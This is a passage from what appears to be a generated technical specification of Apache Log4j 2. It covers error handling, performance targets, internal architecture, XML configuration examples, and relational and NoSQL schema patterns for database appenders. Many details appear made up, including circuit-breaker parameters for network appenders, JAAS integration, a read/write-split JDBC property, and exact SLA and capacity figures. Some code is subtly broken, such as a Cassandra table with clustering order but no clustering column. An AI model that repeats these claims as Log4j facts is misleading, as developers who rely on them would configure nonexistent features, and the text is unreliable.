    subgraph "ADR-002: Plugin Architecture"
        B1[Problem: Extensibility Limitations]
        B2[Decision: Annotation-Driven Plugins]
        B3[Consequences: Compile-Time Processing]
        B1 --> B2 --> B3
    end
    
    subgraph "ADR-003: Async Processing"
        C1[Problem: Performance Bottlenecks]
        C2[Decision: LMAX Disruptor]
        C3[Consequences: Memory Overhead]
        C1 --> C2 --> C3
    end
    
    subgraph "ADR-004: Configuration Formats"
        D1[Problem: Format Diversity]
        D2[Decision: Multi-Format Support]
        D3[Consequences: Parser Complexity]
        D1 --> D2 --> D3
    end
```

## 5.4 CROSS-CUTTING CONCERNS

### 5.4.1 Monitoring and Observability Approach

#### 5.4.1.1 Internal Status Logging

Log4j 2 implements comprehensive internal monitoring through the StatusLogger system, which provides detailed diagnostics about framework operation, configuration loading, and component lifecycle events. This system operates independently of user logging configuration to ensure availability during troubleshooting scenarios.

#### 5.4.1.2 JMX Integration

The framework exposes runtime metrics and configuration through JMX MBeans, enabling monitoring tools to track logging performance, queue utilization, and dynamic configuration changes. Key MBeans include LoggerContext, Configuration, and Appender management interfaces.

#### 5.4.1.3 Performance Metrics

Internal performance tracking includes event processing rates, queue utilization, memory allocation patterns, and appender write performance. These metrics support capacity planning and performance optimization in production environments.

### 5.4.2 Logging and Tracing Strategy

#### 5.4.2.1 Structured Logging Support

The framework provides comprehensive structured logging capabilities through JSON, XML, and custom layout implementations. Template-based JSON layouts enable consistent structured output while maintaining high performance through pre-compiled templates.

#### 5.4.2.2 Distributed Tracing Integration

ThreadContext and mapped diagnostic context (MDC) support enables correlation tracking across distributed systems. Integration with tracing frameworks is facilitated through context propagation and span correlation mechanisms.

#### 5.4.2.3 Audit Trail Capabilities

Specialized audit logging features include tamper-resistant output formats, secure transmission protocols, and integration with enterprise audit systems through standardized formats and protocols.

### 5.4.3 Error Handling Patterns

#### 5.4.3.1 Graceful Degradation

The framework implements comprehensive error handling that maintains operation during partial failures. Appender failures trigger fallback mechanisms, configuration errors activate default configurations, and resource exhaustion scenarios enable graceful degradation.

#### 5.4.3.2 Error Recovery Mechanisms

Automatic recovery strategies include connection retry with exponential backoff, alternative appender activation, and configuration reload capabilities. These mechanisms ensure system resilience without manual intervention.

#### 5.4.3.3 Circuit Breaker Pattern

Network appenders implement circuit breaker patterns to prevent cascading failures during remote system outages. Circuit breakers monitor failure rates and automatically shift between open, half-open, and closed states.

### 5.4.4 Error Handling Flow Diagrams

```mermaid
flowchart TD
    A[Log Event] --> B[Primary Appender]
    B --> C{Write Success?}
    C -->|Yes| D[Complete Successfully]
    C -->|No| E[Error Handler]
    E --> F{Retry Policy?}
    F -->|Yes| G[Exponential Backoff]
    F -->|No| H[Failover Appender]
    G --> I{Max Retries?}
    I -->|No| J[Retry Write]
    I -->|Yes| H
    J --> C
    H --> K{Failover Success?}
    K -->|Yes| L[Log to Failover]
    K -->|No| M[Emergency Fallback]
    M --> N[Console Output]
    N --> O[Complete with Degradation]
    L --> O
    D --> P[Update Metrics]
    O --> Q[Log Error Details]
    Q --> P
```

### 5.4.5 Authentication and Authorization Framework

#### 5.4.5.1 Security Context Integration

The framework integrates with enterprise security frameworks through JAAS integration and security context propagation. Security-sensitive operations include configuration loading, network connections, and file system access.

#### 5.4.5.2 Access Control Mechanisms

Appender-level security controls enable fine-grained access restrictions for sensitive log destinations. Role-based access control integrates with application security frameworks to enforce logging permissions.

#### 5.4.5.3 Credential Management

Secure credential storage and retrieval mechanisms support encrypted configuration properties, external credential providers, and integration with enterprise key management systems.

### 5.4.6 Performance Requirements and SLAs

#### 5.4.6.1 Latency Requirements

| Operation Type | Target Latency | Maximum Latency | Measurement Method |
|---|---|---|---|
| **Synchronous Logging** | <100 microseconds | <1 millisecond | Application thread measurement |
| **Asynchronous Enqueue** | <10 microseconds | <100 microseconds | Ring buffer publish time |
| **Configuration Reload** | <500 milliseconds | <2 seconds | Context swap duration |
| **Appender Write** | <1 millisecond | <10 milliseconds | Destination-specific timing |

#### 5.4.6.2 Throughput Requirements

The framework targets sustained throughput of 1 million events per second in asynchronous mode with peak burst capacity of 10 million events per second. These requirements are validated through continuous performance testing using JMH benchmarks.

#### 5.4.6.3 Resource Utilization

Memory usage targets include <50MB baseline footprint with <1GB maximum heap usage under high load. CPU utilization should remain <10% during steady-state operation with <25% during peak load scenarios.

### 5.4.7 Disaster Recovery Procedures

#### 5.4.7.1 Configuration Backup and Recovery

Automated configuration backup mechanisms enable point-in-time recovery for configuration changes. Configuration versioning and rollback capabilities support rapid recovery from configuration errors.

#### 5.4.7.2 Data Persistence Recovery

Appender-specific recovery procedures address various failure scenarios including network partitions, storage failures, and service outages. Recovery strategies include local buffering, alternative destinations, and offline storage with delayed transmission.

#### 5.4.7.3 Operational Continuity

The framework maintains operational continuity through graceful degradation, automatic failover, and self-healing mechanisms. Critical operations continue with reduced functionality rather than complete failure.

## 5.5 REFERENCES

### 5.5.1 Files Examined

- `src/site/xdoc/manual/architecture.xml` - Official architecture documentation with component relationships and design principles

### 5.5.2 Folders Analyzed

- `/` - Root repository structure revealing 35+ specialized modules and overall organization
- `log4j-api/` - Public API module structure and interface definitions
- `log4j-core/` - Core implementation module with plugin framework and processing engine
- `log4j-api/src/` - API source organization and package structure
- `log4j-api/src/main/` - API implementation details and core abstractions
- `log4j-api/src/main/java/` - Java package structure and interface definitions
- `log4j-core/src/` - Core source organization and implementation structure
- `log4j-core/src/main/` - Core implementation details and plugin framework
- `log4j-spring-boot/` - Spring Boot integration capabilities and auto-configuration
- `log4j-web/` - Servlet container integration and lifecycle management
- `log4j-mongodb4/` - MongoDB appender implementation and document persistence
- `log4j-api-java9/` - Java 9+ multi-release JAR support and module system integration

### 5.5.3 Technical Specification Sections Referenced

- Section 1.2 SYSTEM OVERVIEW - Project context and high-level system capabilities
- Section 2.1 FEATURE CATALOG - Complete feature inventory driving architecture decisions
- Section 3.2 FRAMEWORKS & LIBRARIES - Technology stack and framework dependencies
- Section 4.1 SYSTEM WORKFLOWS - Operational flows and business process documentation

# 6. SYSTEM COMPONENTS DESIGN

## 6.1 CORE SERVICES ARCHITECTURE

### 6.1.1 Applicability Assessment

**Core Services Architecture is not applicable for Apache Log4j 2** as it is designed as a monolithic logging framework that operates as an embedded library within Java applications, not as a distributed system with microservices or distinct service components. 

#### 6.1.1.1 Architectural Classification

Apache Log4j 2 implements a **layered monolithic architecture** with plugin-based extensibility rather than a service-oriented architecture. The framework functions as:

- **Embedded Library**: Operates within the host application's process space
- **Single Deployment Unit**: Distributed as JAR files integrated into applications
- **Shared Memory Architecture**: Components communicate through direct method invocation
- **Thread-Local Processing**: No inter-process communication required

#### 6.1.1.2 Why Service Architecture Patterns Are Inapplicable

| Traditional Service Pattern | Log4j 2 Reality | Architectural Implication |
|---|---|---|
| **Service Boundaries** | Plugin component boundaries | In-process module separation |
| **Inter-Service Communication** | Direct method calls and shared memory | No network communication overhead |
| **Service Discovery** | Annotation-based plugin discovery | Compile-time and runtime registration |
| **Load Balancing** | Thread-based load distribution | Single-process thread management |

### 6.1.2 INTERNAL COMPONENT ARCHITECTURE

While not implementing services architecture, Apache Log4j 2 features sophisticated internal component organization that provides similar benefits through different architectural patterns.

#### 6.1.2.1 Component Boundaries and Responsibilities

```mermaid
graph TB
    subgraph "API Layer"
        A[LogManager] --> B[Logger Interface]
        B --> C[Message Interface]
        C --> D[Level Interface]
    end
    
    subgraph "Core Implementation Layer"
        E[LoggerContext] --> F[Configuration]
        F --> G[Plugin Registry]
        G --> H[Component Factory]
        
        E --> I[Logger Implementation]
        I --> J[LoggerConfig]
        J --> K[Filter Chain]
        K --> L[Appender Manager]
    end
    
    subgraph "Plugin Framework"
        M[Plugin Annotation Processor] --> N[Plugin Metadata]
        N --> O[Plugin Builder]
        O --> P[Plugin Instance]
        
        P --> Q[Appender Plugins]
        P --> R[Layout Plugins]
        P --> S[Filter Plugins]
        P --> T[Lookup Plugins]
    end
    
    subgraph "Async Processing Layer"
        U[Ring Buffer] --> V[Event Handler]
        V --> W[Batch Processor]
        W --> X[Background Thread]
    end
    
    A --> E
    L --> Q
    I --> U
    X --> L
```

#### 6.1.2.2 Internal Communication Patterns

| Communication Type | Implementation | Performance Characteristic | Use Case |
|---|---|---|---|
| **Synchronous Call** | Direct method invocation | <100 nanoseconds | Configuration access, simple logging |
| **Asynchronous Queue** | LMAX Disruptor ring buffer | <10 microseconds enqueue | High-throughput logging scenarios |
| **Event Bus** | Plugin lifecycle notifications | <1 microsecond | Configuration reload, component lifecycle |
| **Shared Memory** | ThreadLocal contexts | <50 nanoseconds | Per-thread state management |

#### 6.1.2.3 Component Discovery and Registration

```mermaid
sequenceDiagram
    participant App as Application
    participant PM as Plugin Manager
    participant APT as Annotation Processor
    participant Meta as Metadata Cache
    participant Factory as Component Factory
    
    Note over APT: Compile Time
    APT->>Meta: Generate Plugin Metadata
    Meta->>Meta: Cache Plugin Definitions
    
    Note over App: Runtime
    App->>PM: Initialize Plugin System
    PM->>Meta: Load Plugin Metadata
    Meta->>PM: Return Plugin Registry
    PM->>Factory: Create Plugin Instances
    Factory->>Factory: Instantiate Components
    Factory->>PM: Return Component References
```

### 6.1.3 SCALABILITY DESIGN

#### 6.1.3.1 Horizontal Scaling Approach

Apache Log4j 2 achieves scalability through **thread-level parallelism** and **asynchronous processing** rather than horizontal service scaling:

```mermaid
flowchart TB
    subgraph "Application Threads"
        T1[Thread 1] --> RB[Ring Buffer]
        T2[Thread 2] --> RB
        T3[Thread 3] --> RB
        TN[Thread N] --> RB
    end
    
    subgraph "LMAX Disruptor Architecture"
        RB --> |Lock-Free Access| DS[Disruptor Sequence]
        DS --> |Batch Processing| BT[Background Thread]
        BT --> |Event Batching| EB[Event Batch]
    end
    
    subgraph "Output Processing"
        EB --> A1[Appender 1]
        EB --> A2[Appender 2]
        EB --> AN[Appender N]
        
        A1 --> |Parallel Write| O1[Output 1]
        A2 --> |Parallel Write| O2[Output 2]
        AN --> |Parallel Write| ON[Output N]
    end
    
    subgraph "Backpressure Handling"
        RB -.->|Buffer Full| QFP{Queue Full Policy}
        QFP -->|BLOCK| W[Wait for Space]
        QFP -->|SYNCHRONOUS| S[Direct Processing]
        QFP -->|DISCARD| D[Drop Events]
    end
```

#### 6.1.3.2 Performance Scaling Characteristics

| Scaling Factor | Implementation | Performance Impact | Configuration |
|---|---|---|---|
| **Thread Count** | Multiple producer threads | Linear throughput scaling | Application thread pool size |
| **Ring Buffer Size** | Power-of-2 buffer sizing | Reduced contention | bufferSize (default: 256K) |
| **Batch Size** | Event batching | Improved I/O efficiency | Automatic batch optimization |
| **Appender Parallelism** | Concurrent output processing | Reduced latency | Multiple appender configuration |

#### 6.1.3.3 Auto-Scaling Mechanisms

```mermaid
stateDiagram-v2
    [*] --> Monitoring: Initialize
    Monitoring --> Normal: Buffer < 50%
    Normal --> Monitoring: Check Buffer
    
    Monitoring --> Warning: Buffer > 50%
    Warning --> Monitoring: Buffer Decreased
    Warning --> Critical: Buffer > 80%
    
    Critical --> Blocking: Buffer > 90%
    Critical --> Monitoring: Buffer Decreased
    
    Blocking --> Synchronous: Buffer = 100%
    Synchronous --> Monitoring: Buffer Available
    
    Normal --> Optimized: Low Latency Mode
    Optimized --> Normal: Standard Mode
```

#### 6.1.3.4 Capacity Planning Guidelines

| Resource Type | Baseline Allocation | Load Scaling | Maximum Capacity |
|---|---|---|---|
| **Memory** | 64MB heap allocation | +128MB per 1M events/sec | 1GB recommended maximum |
| **CPU** | 1 background thread | +1 thread per LoggerContext | 4-8 threads maximum |
| **I/O** | 8KB network buffers | +8KB per appender | 64KB maximum buffer |
| **Disk** | 100MB log file size | Configurable rotation | Unlimited with rotation |

### 6.1.4 RESILIENCE PATTERNS

#### 6.1.4.1 Fault Tolerance Architecture

```mermaid
graph TB
    subgraph "Primary Processing Path"
        A[Log Event] --> B[Filter Chain]
        B --> C[Layout Processing]
        C --> D[Primary Appender]
        D --> E{Write Success?}
        E -->|Yes| F[Complete]
        E -->|No| G[Error Handler]
    end
    
    subgraph "Resilience Layer"
        G --> H[Retry Policy]
        H --> I{Retry Count < Max?}
        I -->|Yes| J[Exponential Backoff]
        J --> K[Retry Attempt]
        K --> D
        
        I -->|No| L[Circuit Breaker]
        L --> M{Circuit State}
        M -->|Closed| N[Try Primary]
        M -->|Open| O[Failover Appender]
        M -->|Half-Open| P[Test Connection]
        
        P -->|Success| Q[Reset Circuit]
        P -->|Failure| R[Keep Circuit Open]
    end
    
    subgraph "Fallback Mechanisms"
        O --> S{Failover Available?}
        S -->|Yes| T[Secondary Appender]
        S -->|No| U[Console Fallback]
        T --> V{Success?}
        V -->|Yes| F
        V -->|No| U
        U --> W[Log to stderr]
    end
```

#### 6.1.4.2 Network Resilience Implementation

| Pattern | Implementation | Configuration Parameters | Behavior |
|---|---|---|---|
| **Connection Retry** | Exponential backoff with jitter | `reconnectionDelayMillis`, `maxReconnectionDelayMillis` | Automatic reconnection on failure |
| **Circuit Breaker** | Failure rate monitoring | `failureThreshold`, `timeout`, `halfOpenThreshold` | Prevents cascading failures |
| **Connection Pooling** | Managed connection lifecycle | `maxConnections`, `connectionTimeout` | Resource optimization |
| **Timeout Control** | Configurable operation timeouts | `connectTimeoutMillis`, `readTimeoutMillis` | Prevents hang scenarios |

#### 6.1.4.3 Data Consistency and Recovery

```mermaid
sequenceDiagram
    participant App as Application
    participant Logger as Logger
    participant Buffer as Ring Buffer
    participant Appender as Appender
    participant Backup as Backup Appender
    
    App->>Logger: Log Event
    Logger->>Buffer: Enqueue Event
    Buffer->>Appender: Process Event
    
    Appender->>Appender: Attempt Write
    alt Write Success
        Appender->>Buffer: Acknowledge Success
        Buffer->>Logger: Complete
    else Write Failure
        Appender->>Appender: Retry Logic
        alt Retry Success
            Appender->>Buffer: Acknowledge Success
        else Max Retries Exceeded
            Appender->>Backup: Failover
            Backup->>Buffer: Acknowledge Backup Write
        end
    end
    
    Buffer->>Logger: Final Status
    Logger->>App: Return Control
```

#### 6.1.4.4 Disaster Recovery Procedures

| Recovery Scenario | Detection Method | Recovery Action | Recovery Time |
|---|---|---|---|
| **Network Partition** | Connection timeout | Activate failover appender | <5 seconds |
| **Disk Full** | IOException handling | Switch to console logging | <1 second |
| **Configuration Corruption** | Validation failure | Revert to previous config | <10 seconds |
| **Memory Exhaustion** | OutOfMemoryError | Activate synchronous mode | <1 second |

### 6.1.5 PERFORMANCE OPTIMIZATION TECHNIQUES

#### 6.1.5.1 Garbage-Free Operation

```mermaid
flowchart LR
    subgraph "Object Lifecycle"
        A[Object Pool] --> B[Acquire Object]
        B --> C[Use Object]
        C --> D[Clear Object]
        D --> E[Return to Pool]
        E --> A
    end
    
    subgraph "Reusable Components"
        F[LogEvent Pool] --> G[StringBuilder Pool]
        G --> H[Encoder Pool]
        H --> I[Buffer Pool]
        I --> F
    end
    
    subgraph "Thread Local Storage"
        J[ThreadLocal Context] --> K[Per-Thread Buffer]
        K --> L[Per-Thread Encoder]
        L --> M[Per-Thread Formatter]
        M --> J
    end
```

#### 6.1.5.2 Performance Characteristics

| Operation Type | Latency Target | Measured Performance | Optimization Technique |
|---|---|---|---|
| **Synchronous Log** | <100 microseconds | 50-100 microseconds | Direct method calls |
| **Async Enqueue** | <10 microseconds | 1-10 microseconds | Lock-free ring buffer |
| **Format Processing** | <50 microseconds | 20-50 microseconds | Cached formatters |
| **Network Write** | <1 millisecond | 0.5-2 milliseconds | Connection pooling |

#### 6.1.5.3 Configuration Examples

#### High-Performance Async Configuration
```xml
<Configuration>
    <Properties>
        <Property name="LOG_PATTERN">%d{yyyy-MM-dd HH:mm:ss.SSS} [%t] %-5level %logger{36} - %msg%n</Property>
    </Properties>
    
    <Appenders>
        <RollingFile name="AsyncFile" fileName="logs/app.log"
                     filePattern="logs/app-%d{yyyy-MM-dd}-%i.log.gz">
            <PatternLayout pattern="${LOG_PATTERN}"/>
            <Policies>
                <TimeBasedTriggeringPolicy />
                <SizeBasedTriggeringPolicy size="100 MB"/>
            </Policies>
            <DefaultRolloverStrategy max="10"/>
        </RollingFile>
    </Appenders>
    
    <Loggers>
        <AsyncLogger name="com.example" level="INFO" additivity="false">
            <AppenderRef ref="AsyncFile"/>
        </AsyncLogger>
        
        <AsyncRoot level="WARN">
            <AppenderRef ref="AsyncFile"/>
        </AsyncRoot>
    </Loggers>
</Configuration>
```

#### Network Resilience Configuration
```xml
<Configuration>
    <Appenders>
        <Socket name="PrimarySocket" host="primary.log.example.com" port="4560"
                protocol="TCP" connectTimeoutMillis="30000"
                reconnectionDelayMillis="5000" maxReconnectionDelayMillis="300000">
            <JsonLayout complete="false" compact="true"/>
        </Socket>
        
        <Socket name="SecondarySocket" host="secondary.log.example.com" port="4560"
                protocol="TCP" connectTimeoutMillis="30000"
                reconnectionDelayMillis="5000" maxReconnectionDelayMillis="300000">
            <JsonLayout complete="false" compact="true"/>
        </Socket>
        
        <Failover name="NetworkFailover" primary="PrimarySocket">
            <Failovers>
                <AppenderRef ref="SecondarySocket"/>
            </Failovers>
        </Failover>
        
        <Console name="Console" target="SYSTEM_OUT">
            <PatternLayout pattern="%d{HH:mm:ss.SSS} [%t] %-5level %logger{36} - %msg%n"/>
        </Console>
    </Appenders>
    
    <Loggers>
        <Root level="INFO">
            <AppenderRef ref="NetworkFailover"/>
            <AppenderRef ref="Console" level="ERROR"/>
        </Root>
    </Loggers>
</Configuration>
```

### 6.1.6 MONITORING AND OBSERVABILITY

#### 6.1.6.1 Internal Metrics and Monitoring

| Metric Category | Key Indicators | Monitoring Method | Alert Thresholds |
|---|---|---|---|
| **Throughput** | Events/second, bytes/second | JMX MBeans | <50% of baseline |
| **Latency** | Average/p99 processing time | Flight recorder | >5x baseline |
| **Buffer Health** | Ring buffer utilization | Custom metrics | >80% utilization |
| **Error Rate** | Failed writes, exceptions | Error counters | >1% failure rate |

#### 6.1.6.2 Integration with Observability Platforms

```mermaid
graph TB
    subgraph "Log4j 2 Internal"
        A[LoggerContext] --> B[StatusLogger]
        B --> C[JMX Beans]
        C --> D[Metrics Collection]
    end
    
    subgraph "External Monitoring"
        E[JMX Exporter] --> F[Prometheus]
        F --> G[Grafana Dashboard]
        
        H[Flight Recorder] --> I[JVM Insights]
        I --> J[Performance Analysis]
        
        K[Status Messages] --> L[Log Aggregation]
        L --> M[Alerting System]
    end
    
    D --> E
    D --> H
    B --> K
```

### 6.1.7 SUMMARY

Apache Log4j 2's architectural approach demonstrates that sophisticated scalability, resilience, and performance can be achieved without implementing traditional microservices patterns. The framework provides:

#### 6.1.7.1 Architectural Strengths

- **High Performance**: Sub-millisecond latency with >1M events/second throughput
- **Resilience**: Comprehensive error handling and failover mechanisms
- **Scalability**: Thread-level parallelism and asynchronous processing
- **Extensibility**: Plugin-based architecture for component customization
- **Maintainability**: Clear separation of concerns and modular design

#### 6.1.7.2 Design Philosophy

The framework's monolithic architecture optimized for embedded library usage provides enterprise-grade capabilities while avoiding the complexity overhead of distributed systems. This approach is particularly effective for logging frameworks where:

- **Latency Requirements**: Sub-millisecond response times are critical
- **Deployment Simplicity**: Single JAR deployment reduces operational complexity
- **Resource Efficiency**: Shared memory access eliminates network serialization overhead
- **Reliability**: In-process communication eliminates network partition scenarios

#### References

**Files Examined:**
- `log4j-core/src/main/java/org/apache/logging/log4j/core/LoggerContext.java` - Central lifecycle manager and configuration container
- `log4j-core/src/main/java/org/apache/logging/log4j/core/async/AsyncLogger.java` - Asynchronous logger implementation
- `log4j-core/src/main/java/org/apache/logging/log4j/core/async/RingBufferLogEvent.java` - LMAX Disruptor integration
- `log4j-core/src/main/java/org/apache/logging/log4j/core/net/TcpSocketManager.java` - Network transport management
- `log4j-core/src/main/java/org/apache/logging/log4j/core/net/SslSocketManager.java` - SSL/TLS transport implementation

**Technical Specification Sections:**
- Section 1.2 System Overview - System context and capabilities
- Section 5.1 High-Level Architecture - Overall architectural approach

## 6.2 DATABASE DESIGN

### 6.2.1 Database Architecture Overview

Apache Log4j 2 implements a **pluggable database architecture** that supports multiple database technologies through specialized appender modules. Rather than mandating specific database schemas, the framework provides flexible patterns and frameworks enabling users to define custom data models tailored to their logging requirements. The database design emphasizes performance, scalability, and fault tolerance while maintaining compatibility across diverse storage backends.

#### 6.2.1.1 Database Integration Strategy

The framework employs a **modular database integration approach** through dedicated modules:

- **log4j-jdbc-dbcp2**: Relational database support with production-grade connection pooling
- **log4j-jpa**: Object-relational mapping through JPA 2.1 specification
- **log4j-mongodb3/mongodb4**: Document database integration with MongoDB drivers
- **log4j-cassandra**: Distributed column-family database support
- **log4j-couchdb**: Document database integration via LightCouch client

This architecture enables seamless database technology switching without impacting application logging code, supporting both relational and NoSQL storage paradigms based on operational requirements.

#### 6.2.1.2 Schema Design Philosophy

The database design follows a **schema-agnostic approach** where:

- **Flexible Data Models**: Users define table structures and document schemas based on specific logging requirements
- **Extensible Column Mapping**: Dynamic mapping between LogEvent properties and database columns
- **Type Safety**: Automatic type conversion and validation for database-specific data types
- **Schema Evolution**: Support for adding new fields without breaking existing configurations

### 6.2.2 Schema Design

#### 6.2.2.1 Entity Relationships

```mermaid
erDiagram
    LogEvent {
        string id PK
        timestamp eventDate
        string level
        string loggerName
        string message
        string threadName
        string exception
        map mdc
        list ndc
        string markerName
    }
    
    ColumnMapping {
        string name PK
        string type
        string pattern
        string literal
        boolean isEventTimestamp
        boolean isUnicode
        boolean isClob
    }
    
    DatabaseConnection {
        string connectionString PK
        string driverClassName
        string username
        int maxConnections
        int maxConnLifetimeMillis
        string validationQuery
    }
    
    LogEvent ||--o{ ColumnMapping : "maps to"
    DatabaseConnection ||--o{ LogEvent : "stores"
```

#### 6.2.2.2 Relational Database Schema Patterns

#### JDBC Appender Schema Structure

**Primary Log Entry Table Pattern**:
```sql
CREATE TABLE application_logs (
    id INTEGER IDENTITY PRIMARY KEY,
    event_date TIMESTAMP NOT NULL,
    level VARCHAR(10) NOT NULL,
    logger_name VARCHAR(255) NOT NULL,
    message TEXT,
    thread_name VARCHAR(100),
    exception_text CLOB,
    marker_name VARCHAR(100),
    mdc_data CLOB,
    ndc_data CLOB,
    request_id VARCHAR(50),
    user_id VARCHAR(50),
    application_name VARCHAR(100) DEFAULT 'log4j-app',
    hostname VARCHAR(100),
    INDEX idx_event_date (event_date),
    INDEX idx_level (level),
    INDEX idx_logger (logger_name),
    INDEX idx_request_id (request_id)
);
```

**Column Mapping Configuration**:
| Column Name | Data Type | LogEvent Property | Conversion Pattern | Constraints |
|-------------|-----------|-------------------|-------------------|-------------|
| event_date | TIMESTAMP | eventDate | ISO-8601 format | NOT NULL |
| level | VARCHAR(10) | level | Enum string value | NOT NULL |
| logger_name | VARCHAR(255) | loggerName | Direct mapping | NOT NULL |
| message | TEXT | message | Formatted message | Unlimited length |

#### JPA Entity Design Patterns

**Base Entity Structure**:
```java
@Entity
@Table(name = "jpa_log_entries")
public class LogEntry extends AbstractLogEventWrapperEntity {
    @Id
    @GeneratedValue(strategy = GenerationType.IDENTITY)
    private Long id;
    
    @Temporal(TemporalType.TIMESTAMP)
    @Column(name = "event_date", nullable = false)
    private Date eventDate;
    
    @Convert(converter = LevelAttributeConverter.class)
    @Column(name = "level", length = 10, nullable = false)
    private Level level;
    
    @Column(name = "logger_name", length = 255, nullable = false)
    private String loggerName;
    
    @Convert(converter = MessageAttributeConverter.class)
    @Column(name = "message", columnDefinition = "TEXT")
    private Message message;
    
    @Convert(converter = ThrowableAttributeConverter.class)
    @Column(name = "exception_text", columnDefinition = "CLOB")
    private Throwable thrown;
    
    @Convert(converter = ContextMapAttributeConverter.class)
    @Column(name = "mdc_data", columnDefinition = "CLOB")
    private Map<String, String> contextMap;
}
```

**Specialized Converters**:
- **LevelAttributeConverter**: Converts Log4j Level enum to database string
- **MessageAttributeConverter**: Serializes Message interface to string representation
- **ThrowableAttributeConverter**: Converts exceptions to formatted stack traces
- **ContextMapAttributeConverter**: Handles MDC as JSON or key-value pairs

#### 6.2.2.3 NoSQL Database Schema Patterns

#### MongoDB Document Structure

**Primary Document Schema**:
```javascript
{
  "_id": ObjectId("..."),
  "timestamp": ISODate("2024-01-01T12:00:00.000Z"),
  "level": "INFO",
  "logger": "com.example.application.Service",
  "message": "User authentication successful",
  "thread": "http-nio-8080-exec-1",
  "marker": "SECURITY",
  "mdc": {
    "userId": "user123",
    "requestId": "req-abc-123",
    "sessionId": "session-xyz-789"
  },
  "ndc": ["WebController", "AuthenticationService"],
  "exception": null,
  "hostname": "app-server-01",
  "applicationName": "user-service"
}
```

**Index Strategy**:
```javascript
// Compound indexes for common query patterns
db.logs.createIndex({ "timestamp": 1, "level": 1 });
db.logs.createIndex({ "logger": 1, "timestamp": 1 });
db.logs.createIndex({ "mdc.userId": 1, "timestamp": 1 });
db.logs.createIndex({ "mdc.requestId": 1 });

// TTL index for automatic document expiration
db.logs.createIndex({ "timestamp": 1 }, { expireAfterSeconds: 2592000 }); // 30 days
```

#### Cassandra Table Design

**Primary Table Schema**:
```sql
CREATE TABLE IF NOT EXISTS logs (
    id timeuuid PRIMARY KEY,
    timeid timeuuid,
    message text,
    level text,
    marker text,
    logger text,
    timestamp timestamp,
    thread text,
    mdc map<text, text>,
    ndc list<text>,
    exception text
) WITH CLUSTERING ORDER BY (timeid DESC)
  AND compaction = {'class': 'TimeWindowCompactionStrategy'}
  AND gc_grace_seconds = 86400;
```

**Partitioning Strategy**:
- **Time-based Partitioning**: Partition by date for efficient time-range queries
- **Logger-based Partitioning**: Secondary partitioning by logger name for application-specific queries
- **Composite Keys**: TimeUUID ensures uniqueness and natural ordering

#### 6.2.2.4 Indexing Strategy

#### Relational Database Indexes

**Primary Indexes**:
- **Temporal Indexes**: `CREATE INDEX idx_event_date ON logs(event_date DESC)`
- **Level Indexes**: `CREATE INDEX idx_level ON logs(level, event_date DESC)`
- **Logger Indexes**: `CREATE INDEX idx_logger ON logs(logger_name, event_date DESC)`
- **Composite Indexes**: `CREATE INDEX idx_logger_level ON logs(logger_name, level, event_date DESC)`

**Performance Considerations**:
- **Covering Indexes**: Include frequently queried columns in index definition
- **Partial Indexes**: Filter indexes for specific log levels or date ranges
- **Maintenance**: Regular index statistics updates for optimal query planning

#### NoSQL Database Indexes

**MongoDB Index Strategy**:
- **Compound Indexes**: Combine timestamp, level, and logger for efficient filtering
- **Sparse Indexes**: Index only documents containing specific fields
- **Text Indexes**: Full-text search capabilities for log messages
- **TTL Indexes**: Automatic document expiration for log retention

**Cassandra Materialized Views**:
```sql
CREATE MATERIALIZED VIEW logs_by_level AS
SELECT * FROM logs
WHERE level IS NOT NULL AND id IS NOT NULL
PRIMARY KEY (level, timestamp, id);
```

#### 6.2.2.5 Partitioning Approach

#### Time-based Partitioning

**Relational Database Partitioning**:
```sql
-- PostgreSQL example
CREATE TABLE logs_2024_01 PARTITION OF logs
FOR VALUES FROM ('2024-01-01') TO ('2024-02-01');

CREATE TABLE logs_2024_02 PARTITION OF logs
FOR VALUES FROM ('2024-02-01') TO ('2024-03-01');
```

**Benefits**:
- **Query Performance**: Partition pruning for time-range queries
- **Maintenance Efficiency**: Parallel maintenance operations
- **Storage Management**: Easy archival of old partitions

#### Application-based Partitioning

**Logger-based Partitioning**:
- **Application Isolation**: Separate partitions for different application modules
- **Security Boundaries**: Partition-level access controls
- **Performance Isolation**: Prevent cross-application query interference

#### 6.2.2.6 Replication Configuration

#### Master-Slave Replication

**Configuration Pattern**:
```xml
<JdbcAppender name="DatabaseAppender">
    <DataSource>
        <Property name="url">jdbc:postgresql://master:5432/logs</Property>
        <Property name="readOnlyUrl">jdbc:postgresql://slave:5432/logs</Property>
        <Property name="replicationMode">readWriteSplit</Property>
    </DataSource>
</JdbcAppender>
```

#### NoSQL Replication

**MongoDB Replica Set**:
- **Primary/Secondary Model**: Automatic failover capabilities
- **Read Preference**: Configurable read routing to secondaries
- **Write Concern**: Configurable consistency levels

**Cassandra Multi-DC Replication**:
- **Network Topology Strategy**: Cross-datacenter replication
- **Consistency Levels**: Tunable consistency vs. availability
- **Repair Operations**: Automated anti-entropy processes

#### 6.2.2.7 Backup Architecture

#### Relational Database Backup Strategy

**Full Backup Pattern**:
```sql
-- PostgreSQL example
pg_dump --format=custom --compress=9 --file=logs_backup_$(date +%Y%m%d).dump logs_db
```

**Incremental Backup Strategy**:
- **Transaction Log Shipping**: Continuous log shipping to backup systems
- **Point-in-Time Recovery**: Restore to specific timestamps
- **Compression**: Minimize backup storage requirements

#### NoSQL Backup Strategies

**MongoDB Backup**:
- **mongodump**: Consistent point-in-time backups
- **Oplog Backup**: Continuous replication log backup
- **Sharded Cluster Backup**: Coordinated backup across shards

**Cassandra Backup**:
- **Snapshot Creation**: `nodetool snapshot` for consistent backups
- **Incremental Backups**: Continuous SSTable backup
- **Cross-DC Backup**: Replication-based backup strategy

### 6.2.3 Data Management

#### 6.2.3.1 Migration Procedures

#### Schema Migration Framework

**Version-based Migration System**:
```java
@Component
public class DatabaseMigrationManager {
    private final Map<String, MigrationScript> migrations = Map.of(
        "1.0.0", new InitialSchemaCreation(),
        "1.1.0", new AddIndexesMigration(),
        "1.2.0", new AddColumnsForMDC(),
        "2.0.0", new PartitioningMigration()
    );
    
    public void migrateToVersion(String targetVersion) {
        // Progressive migration execution
    }
}
```

**Migration Script Pattern**:
```sql
-- Migration 1.1.0: Add performance indexes
CREATE INDEX CONCURRENTLY idx_logs_timestamp_level 
ON logs(event_date DESC, level) 
WHERE event_date > CURRENT_DATE - INTERVAL '90 days';

-- Migration 1.2.0: Add MDC support
ALTER TABLE logs ADD COLUMN mdc_data JSONB;
CREATE INDEX idx_logs_mdc_gin ON logs USING GIN(mdc_data);
```

#### Data Migration Strategies

**Online Migration Approach**:
